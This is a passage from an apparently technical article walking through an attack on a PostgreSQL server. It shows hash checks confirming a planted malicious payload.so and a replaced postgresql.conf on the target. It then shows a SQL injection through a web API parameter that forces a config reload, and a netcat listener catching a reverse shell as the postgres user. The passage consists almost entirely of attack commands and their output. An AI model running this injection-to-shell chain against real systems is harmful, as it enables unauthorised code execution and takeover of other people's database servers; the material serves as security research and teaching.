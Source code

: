 
If everything is correct, we should see the updated config and .so file in
place:

</PRE>
```console
# .so library
=== target server ===
ubuntu@ubuntu-virtual-machine:/tmp$ md5sum payload.so
0a240596d100c8ca8e781543884da202  payload.so

=== attacker server ===
$ md5sum payload.so
0a240596d100c8ca8e781543884da202  payload.so


# postgresql.conf
=== target server ===
ubuntu@ubuntu-virtual-machine:~$ md5sum /etc/postgresql/13/main/postgresql.conf
480bb646f178be2a9a2b609b384e20de  /etc/postgresql/13/main/postgresql.conf

=== attacker server ===
$ md5sum postgresql_new.conf
480bb646f178be2a9a2b609b384e20de  postgresql_new.conf
```
<PRE>

---[ 4.4 - Reload successful

We are all set. Now for the moment of glory! A quick config reload and we
get a reverse shell back from the server.

</PRE>
```console
$ curl -G "http://172.23.16.127:8000/phrases" --data-urlencode \
"id=-1 UNION SELECT 1337, CAST((SELECT pg_reload_conf()) AS text)"
[
    {"id":1337,"text":"true"}
]
```
<PRE>


On the attacker host:

</PRE>
```console
$ nc -lvnp 8888
Listening on 0.0.0.0 8888
Connection received on 172.23.16.1 53004

id
uid=129(postgres) gid=138(postgres) groups=138(postgres),115(ssl-cert)
pwd
/var/lib/postgresql
```
<PRE>
